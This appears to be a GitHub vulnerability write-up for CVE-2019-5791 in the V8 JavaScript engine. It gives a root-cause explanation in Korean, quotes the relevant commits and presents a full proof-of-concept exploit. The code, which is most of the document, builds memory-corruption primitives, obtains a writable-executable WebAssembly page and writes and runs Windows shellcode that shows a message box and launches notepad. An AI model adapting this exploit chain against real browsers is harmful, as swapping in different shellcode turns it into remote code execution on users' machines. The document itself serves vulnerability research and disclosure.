 # CVE-2019-5791
* Date : January 2019
* Credit : cwhan.tunz@gmail.com (Google Project Zero)
* PoC was tested on Ubuntu 18.04 and Windows 10 without Sandbox
* Uploaded source code must be tested in ubuntu 18.04 with --allow-natives-syntax option
* On windows 10, shellcode must be changed.

## Description
A lazy-compiled function generates an interpreter code confusing smi value as a heap object. seems like it accesses a function object mutated to smi when generating a call stack.

## Root Cause

자바스크립트는 함수 외부에서 함수 내부의 변수를 참조해 closure로 반환하는 것을 가능하도록 해준다. 이러한 자유로운 특징 때문에 컴파일시에 각 함수마다 참조하는 변수가 무엇인지 확인해서 변수를 스택에 할당할 것인지 힙에 할당할 것인지 결정해야한다. 이는 자바스크립트 코드를 파싱하는 단계에서 수행한다. 아래와 같은 예제 코드에서 var foo2=foo(10)에서 foo 함수 내에 인자로 들어가는 10은 stack에 들어가는게 자연스럽지만, foo 함수가 반환하는 closure에서 참조하기 때문에 heap에 선언되어야 한다. 

```javascript
function foo(d){
  return function foo1(a){
    return a+d;
   };
}

var foo2 = foo(10);

function goo(a){
  return foo2(a);
}

```
또한 자바스크립트는 브라우저에서 끊김없이 수행되어야하기 때문에 모든 함수를 순차적으로 미리 컴파일하지 않고 함수를 잠시 저장해놓고 함수가 처음으로 호출될 때 컴파일을 진행한다. 다만 함수가 아닌 top-level scope에 짜여진 코드는 즉시 컴파일 된다. 즉, v8 엔진이 자바스크립트를 해석하고 구동하는 과정은 다음과 같다. preparser -> parser -> compile -> lazy compile. preparser는 앞서 설명했듯 각 함수가 어떤 변수를 참조하는지에 대한 정보(context)를 반환한다.

###bad commit
Following statement is about [bad commit](https://chromium.googlesource.com/v8/v8/+/7412593920eceebbbc37ef290d1e3fcb168a3c31)
```
[ignition] More accurate dead statement elision

The Ignition statement list visitor will skip the rest of the
statements in the list if it hits a jump statement (like a return
or break), as the rest of the code in the list can be considered
dead.

    return;
    dead_call(); // skipped

However, since this is at an AST node level, it does not take into
account condition shortcutting:

    if(2.2) return;
    dead_call(); // not skipped

There is also a second dead code elimination in Ignition compilation, at
the bytecode array writer level, where a bytecodes are not emitted if an
"exit" bytecode (Return, Jump, or a few others) has been written, until
the next basic block starts (i.e. a Bind).
```

###fix commit
Following statement is about [fix commit](https://chromium.googlesource.com/v8/v8/+/9439a1d2bba439af0ae98717be28050c801492c1)
```
[ast] Always visit all AST nodes, even dead nodes

We'll let the bytecode compiler and optimizing compilers deal with dead code,
rather than the ast visitors. The problem is that the visitors previously
disagreed upon what was dead. That's bad if necessary visitors omit parts of
the code that the bytecode generator will actually visit.

I did consider removing the AST nodes immediately in the parser, but that
adds overhead and actually broke code coverage. Since dead code shouldn't be
shipped to the browser anyway (and we can still omit it later in the bytecode
generator), I opted for keeping the nodes instead.
```

## PoC
```javascript
callFn = function (code) { try { code(); } catch (e) { console.log(e); } }

let proxy = new Proxy({}, {});
function run(prop, ...args) {
	let handler = {};
	const proxy = new Proxy(function(){}, handler);
	handler[prop] = (({v1 = ((v2 = (function () {
		var v3 = 0;
		var callFn = 0;
		if(a){return;}else{return;}
		(function () { v3(); });
		(function () {
			callFn = "\u0041".repeat(1024*32);
			v3 = [1.1];
			v4 = [{}].slice();
			//%DebugPrint(v3);
			//%DebugPrint(v4);
		})
		})) => (1))() }, ...args) => (1));
	Reflect[prop](proxy, ...args);
}
callFn((() => (run("construct", []))));
callFn((() => (run("prop1"))));
function test() {
	run[0x10] = 0x12121212;
	console.log(proxy.length);
  
  //repeat until it doesn't crash..
	if(proxy.length==1){
		location.reload();
		quit();
	}
	
	let convert = new ArrayBuffer(0x8);
	let f64 = new Float64Array(convert);
	let u32 = new Uint32Array(convert);

	function d2u(v) { f64[0] = v; return u32;}
	function u2d(lo, hi) { u32[0] = lo; u32[1] = hi; return f64[0];}
	function hex(d) { let val = d2u(d); return ("0x" + (val[1] * 0x100000000 + val[0]).toString(16)); }

// Windows x64 shellcode which does .. : MessageBoxA(NULL, "Hello World"); WinExec("notepad.exe");
	let shellcode = [0x488bc448, 0x89580848, 0x89701048, 0x89781855, 0x488d68a1, 0x4881ecb0, 0xc7, 0x45c77573, 0x6572c745, 0xcb33322e, 0x6466c745, 0xcf6c6cc6, 0x45d100c7, 0x45f74865, 0x6c6cc745, 0xfb6f2077, 0x6fc745ff, 0x726c6400, 0xc745d743, 0x3a5c57c7, 0x45db696e, 0x646f66c7, 0x45df7773, 0xc645e100, 0xc745e75c, 0x537973c7, 0x45eb7465, 0x6d3366c7, 0x45ef325c, 0xc645f100, 0xc745076e, 0x6f7465c7, 0x450b7061, 0x642ec745, 0xf657865, 0xe8da00, 0xba8e, 0x4e0eec48, 0x8bc8488b, 0xf8e85201, 0x488d, 0x4dc7ffd0, 0xba7ed8e2, 0x73488bcf, 0x488bd8e8, 0x3c010000, 0xba98fe8a, 0xe488bcf, 0x488bf0e8, 0x2c010000, 0xbaa8a24d, 0xbc488bcb, 0x488bf8e8, 0x1c010000, 0x4533c948, 0x8d55f745, 0x33c033c9, 0xffd0488d, 0x55d7c645, 0x1700488d, 0x4d17e859, 0x48, 0x8d55e748, 0x8d4d17e8, 0x4c000000, 0x488d5507, 0x488d4d17, 0xe83f0000, 0xba0500, 0x488d, 0x4d17ffd7, 0x33c9ffd6, 0x4c8d9c24, 0xb0000000, 0x498b5b10, 0x498b7318, 0x498b7b20, 0x498be35d, 0xc3cccccc, 0x33c03801, 0x740a48ff, 0xc1ffc080, 0x390075f6, 0xc3cccccc, 0xeb0348ff, 0xc1803900, 0x75f8482b, 0xca8a0288, 0x41148ff, 0xc284c075, 0xf4c3cccc, 0x4883ec28, 0xe8ff0000, 0x488b48, 0x184c8b51, 0x204d8bda, 0x498b4a50, 0xe8230000, 0x3d3fd6, 0xec8f7413, 0x4d8b124d, 0x85d27405, 0x4d3bd375, 0xe34883c8, 0xffeb0449, 0x8b422048, 0x83c428c3, 0x4533c941, 0x8bd1eb1b, 0x440fb7c0, 0x488d4902, 0x418d40bf, 0x83f81977, 0x44183c0, 0x20c1ca0d, 0x4103d00f, 0xb7016685, 0xc075dd8b, 0xc2c3cccc, 0x33c0eb0b, 0xfbed248, 0xffc1c1c8, 0xd03c28a, 0x1184d275, 0xefc3cccc, 0x48895c24, 0x8488974, 0x24105748, 0x83ec2048, 0x63413c45, 0x33c98bf2, 0x4c8bd144, 0x8b840888, 0x4c, 0x3c1458b, 0x5820418b, 0x581c4c03, 0xd9418b78, 0x244803d9, 0x458b4018, 0x4803f945, 0x85c0741b, 0x418b0b49, 0x3cae899, 0xffffff3b, 0xf0741e41, 0xffc14983, 0xc304453b, 0xc872e533, 0xc0488b5c, 0x2430488b, 0x74243848, 0x83c4205f, 0xc3420fb7, 0xc4f8b04, 0x8b4903c2, 0xebe3cccc, 0x65488b04, 0x25600000, 0xc30000];
  
	let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
	let f = wasm_mod.exports._Z3addii;
	
	console.log("[+] arr1[0] : "+proxy[0])
	console.log("[+] arr2[0] : "+hex(proxy[0x18]))
	arr2Map = proxy[4]
	var arr1Map = arr2Map - 0.000000000007900e-310
	console.log("[+] arr1Map : " + hex(arr1Map))
	console.log("[+] arr2Map : " + hex(arr2Map))

	//alert("success");

	let addrof = function(obj) {
		v4[0] = obj;
		return proxy[0x18];		// return arr2[0];
	}

	let fakeobj = function(addr) {
		proxy[0x18] = addr
		return v4[0]
	}

	let ab = new ArrayBuffer(0x300);
	let abAddr = addrof(ab);
	//%DebugPrint(ab);
	console.log("[+] array_buf : "+hex(abAddr));
	let wasmObj = addrof(wasm_mod) + u2d(0xe8-0x10,0);
	console.log("[+] wasm_addr : "+hex(addrof(wasmObj)))

	var fake = [ arr1Map, 0, wasmObj, u2d(0,0x8) ].slice();
	var fakeAddr = addrof(fake) - u2d(0x20,0);
	var target = fakeobj(fakeAddr);
	console.log("[+] fake_addr : " + hex(fakeAddr));

	let rwx = target[0];
	console.log("[+] rwx : " + hex(rwx));
	fake[2] = abAddr + u2d(0x10, 0);
	target[0] = rwx;

	let dv = new DataView(ab);
	for (var i = 0; i < shellcode.length; i++) {
		dv.setUint32(i*4, shellcode[i]);
	}
	//%DebugPrint(f);
	f();	
}

test();
```

## Reference

[issue 926651](https://bugs.chromium.org/p/chromium/issues/detail?id=926651)
